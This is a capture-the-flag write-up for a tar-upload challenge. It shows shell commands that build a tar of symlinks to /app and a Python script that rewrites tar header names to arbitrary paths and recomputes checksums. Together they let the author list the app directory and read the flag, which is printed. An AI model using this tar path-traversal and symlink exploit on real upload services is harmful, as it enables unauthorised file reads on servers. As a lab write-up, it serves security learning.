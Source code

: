 ```yaml
---
ai_date: '2025-04-27 05:20:52'
ai_summary: Exploited directory traversal and tar file manipulation to bypass checksum,
  create symbolic links, and extract flag from `/app`
ai_tags:
- lfi
- tar
- path-traversal
created: 2024-08-04T06:05
navigation: false
points: 478
solves: 119
updated: 2024-08-08T23:22
---
```


We are allowed to upload a tar file and have the remote extract it, nice.

## analysis

But we don't know the flag file name, so we can't simply add a link to the tar, pointing to the flag file, we need to read the folder `/app`.

Furthermore, `open` does not read folders, so we have to use the endpoint `/view/<name>` to read our link pointing to `/app`.

Which means we have to make a link under `/app/uploads/` that will point to `/app/` (and not under `/app/uploads/0123/aaa` during normal extraction).

## payload

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1723173745/2024/08/ace04d395856a46fe9424093ecc080a2.png)

1. `tar` file can contain links, with that we can target the `/app` folder.
2. `tar` file extraction allows arbitrary file write to any location by editing the name field (binary).
3. `tar` file has a crc that needs to be patched.

```bash
ln -s /app aaa
tar -cvf malicious.tar aaa
python patch.py
```

Sending it to the server and I got... Internal error.

After running my own docker instance, I found the cause.

There is no `aaa.tar` inside `/app`, so the following line failed.

```python
files.remove(f'{name}.tar')  # Remove the tar file from the list
```

To solve this we can simply add a new entry `/app/aaa.tar`.

```bash
ln -s /app aaa
ln -s /app aaa.tar
tar -cvf malicious.tar aaa aaa.tar
```

## execution
After uploading the file, visit `/view/aaa`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722748079/2024/08/6aab82c079c6a5a981cdc69959b8ec50.png)

Clicking on `flag` we arrive at our flag.

```flag
n00bz{n3v3r_7rus71ng_t4r_4g41n!_72810bc8e5af}
```

## auto tar checksum/path patcher

> Reused from my previous writeup.

```python [patch.py]
with open("malicious.tar", "rb") as f:
    tar = f.read()
    tar = bytearray(tar)

    a1 = b"/app/uploads/aaa"
    tar[0x00:0x00+len(a1)] = a1
    a2 = b"/app/aaa.tar"
    tar[0x200:0x200+len(a2)] = a2

    off = 0
    while True:
        if tar[off] == 0:
            break
        tar[off+0x94:off+0x9c] = b' '*(0x9c-0x94)
        checksum = sum(list(tar[off+0x00:off+0x200]))
        tar[off+0x94:off+0x9c] = bytes(("%06o\0" % checksum).ljust(8), "ascii")
        print("patched", hex(off))
        off += 0x200

    tar = bytes(tar)
    with open("malicious.out.tar", "wb") as f:
        f.write(tar)
        print("Done")
```